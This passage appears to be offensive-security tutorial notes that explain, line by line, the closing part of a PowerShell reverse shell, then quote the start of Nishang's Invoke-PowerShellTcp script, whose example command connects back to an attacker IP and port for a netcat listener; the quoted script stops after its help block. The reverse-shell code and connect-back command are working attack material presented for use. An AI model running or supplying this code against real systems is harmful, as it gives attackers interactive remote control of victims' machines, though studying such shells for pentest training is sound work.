 ## Invoke-Expression
**`$sendback = (iex $data 2>&1 | Out-String):`**
- The `iex` executes the received command `$data` in PowerShell.
- `2>&1` redirects both standard output and error output to the same stream.
- The output is then converted to a string using `Out-String`.

---

## Show Working Directory
**`$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ':`**
- The output of the executed command (`$sendback`) is appended with the current PowerShell prompt (`PS <current directory> > `) to indicate where the next command will be executed from.

---

## Sets Sendbyte
**`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2):`**
- The response, including the new prompt, is converted back into a byte array (`$sendbyte`) using ASCII encoding.

---

## Send Data to Attacker
**`$stream.Write($sendbyte,0,$sendbyte.Length):`**
- Sends the byte array `$sendbyte` back to the attacker through the network stream.

---

## Flush the Stream
**`$stream.Flush():`**
- Ensures that all data is written to the network stream, sending it to the attacker’s machine.

---

## Terminate TCP Connection
**`$client.Close():`**
- Closes the TCP client connection after the reverse shell session ends.
 

we can write above in .ps1 format alsi

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
```